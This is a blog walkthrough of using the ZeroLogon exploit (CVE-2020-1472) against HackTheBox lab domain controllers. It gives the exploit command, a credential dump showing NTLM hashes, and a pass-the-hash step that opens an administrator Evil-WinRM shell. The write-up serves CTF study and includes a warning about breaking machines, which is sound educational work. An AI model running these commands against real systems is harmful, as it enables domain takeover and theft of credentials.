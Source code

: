 

# ZeroLogon - Owning HTB machines with CVE-2020-1472

#cve-2020-1472 #exploit #domain-controller #htb-monteverde #zerologon
#impacket #python #virtualenv #secretsdump Sep 17, 2020






[ZeroLogon - Owning HTB machines with CVE-2020-1472](#)




![](/img/zero-cover.png)

CVE-2020-1472 was patched in August 2020 by Microsoft, but it didn't
really make a splash until the last week when proof of concept exploits
started hitting GutHub. It truly is a short path to domain admin. I'll
look at the exploit and own some machines from HTB with it.

## Background

CVE-2020-1472, or ZeroLogon, abuses a bug in a customized authentication
scheme used by the Netlogon Remote Protocol. Secura put out a
[whitepaper about the
vulnerability](https://www.secura.com/pathtoimg.php?id=2055) that goes
into all the details of what is broken. The gist is the authentication
protocol insecurely uses AES-CFB8, which allows the attacker to spoof
the client credential, disable signing and sealing, spoof a call to the
this RPC service, which happens to be responsibly for letting a computer
update its password, but only to an empty password.

However, once the attacker knows the machine account password for a
domain controller, they are able to dump all the hashes from the
computer, where it is then trivial to use the administrator hash to get
a session. This means that any attacker with network access to an
unpatched domain controller can become domain admin.

**This exploit will change the machine password of the target domain
controller to be the empty string. This will break things. Do not use
these outside a CTF / lab environment without fully testing and
understanding the risks, and measuring them against your tolerance.**
Many of the POCs come with scripts to restore the machine password after
the attack, which could be useful for helping to restore the machine
(but again, you'll want to test and get comfortable with those).

## Setup

### POC

There are a bunch of POCs out there. I ended up playing with [this
one](https://github.com/dirkjanm/CVE-2020-1472). I just went into `/opt`
on my local machine and ran
`git clone https://github.com/dirkjanm/CVE-2020-1472.git` to get a copy.

### Impacket

[Impacket](https://github.com/SecureAuthCorp/impacket) is a collection
of Python classes that work with network protocols, and are specifically
really good at Windows protocols. All of the POCs I found use Impacket
to do the Windows-specific protocols. Unfortunately, the POCs all need
the latest version of Impactet, which isn't what is available through
the package managers yet. And, you can really dork your computer (or VM)
by installing Python tools in multiple ways.

To get around this, I installed a copy of Impacket into a Python virtual
environment. I cloned a copy with
`git clone https://github.com/SecureAuthCorp/impacket.git`. Then,
`cd impacket`, and I'll create a virtual env with
`python3 -m venv venv`. Now activate it, and see that the prompt
changes:



    root@kali:/opt/impacket# source venv/bin/activate
    (venv) root@kali:/opt/impacket#



Now `pip install .` will install Impacket. As long as I'm running with
the virtual env activated, it will all work nicely together. To
deactivate the virtual environment, I'll just run `deactivate`.

## Example - Monteverde

There are tons of boxes on HTB that are domain controller to test on.
I'll start with [Monteverde](/htb-monteverde.md). If I try
to dump the password hashes using the machine account and an empty
password, it fails:



    (venv) root@kali:/opt/impacket# secretsdump.py -just-dc -no-pass MONTEVERDE\$@10.10.10.172
    Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation

    [-] RemoteOperations failed: SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
    [*] Cleaning up... 



`STATUS_LOGON_FAILURE` calls out an invalid logon.

Now I'll run the exploit:



    (venv) root@kali:/opt/impacket# python /opt/CVE-2020-1472/cve-2020-1472-exploit.py MONTEVERDE 10.10.10.172
    Performing authentication attempts...
    ===========================================================================================================================================================================================================================================
    Target vulnerable, changing account password to empty string

    Result: 0

    Exploit complete!



Now, I'll run the same `secretsdump` command. I'll give it a username of
the machine account (typically the hostname with a `$` appended), and
use the `-no-pass` flag:



    (venv) root@kali:/opt/impacket# secretsdump.py -just-dc -no-pass MONTEVERDE\$@10.10.10.172                            
    Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
                                                              
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:100a42db8caea588a626d3a9378cd7ea:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3480c0ed5001f14fa7a49fdf016043ff:::
    AAD_987d7f2f57d2:1104:aad3b435b51404eeaad3b435b51404ee:599716220acac74a2d9049230d3a8b06:::
    MEGABANK.LOCAL\mhope:1601:aad3b435b51404eeaad3b435b51404ee:f875f9a71efc6b0ee93dd906aedbc8b6:::
    MEGABANK.LOCAL\SABatchJobs:2602:aad3b435b51404eeaad3b435b51404ee:fd980edb4732d8175a52a9b5e1520bc1:::
    MEGABANK.LOCAL\svc-ata:2603:aad3b435b51404eeaad3b435b51404ee:d192ea098c69b7d26c50808a5ac75bea:::
    MEGABANK.LOCAL\svc-bexec:2604:aad3b435b51404eeaad3b435b51404ee:2e4de9439cfd99f861dec8fc460c47e3:::
    MEGABANK.LOCAL\svc-netapp:2605:aad3b435b51404eeaad3b435b51404ee:6bd17d9707c3da465b96cdf0e1a3a4d6:::
    MEGABANK.LOCAL\dgalanos:2613:aad3b435b51404eeaad3b435b51404ee:7a695f4cc64a302d8e53da58f0885736:::
    MEGABANK.LOCAL\roleary:2614:aad3b435b51404eeaad3b435b51404ee:cb3fa0132c099c5b29c30ef128e90ad8:::
    MEGABANK.LOCAL\smorgan:2615:aad3b435b51404eeaad3b435b51404ee:3a2b291c4291a1063a4b32e1770e5388:::
    MONTEVERDE$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    ...[snip]...



I can use that administrator hash to get a WinRM session with
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm):



    root@kali:/opt/impacket# evil-winrm -u administrator -i 10.10.10.172 --hash '100a42db8caea588a626d3a9378cd7ea'

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>



I tried the same process on a handful of other retired machines, with
total success.





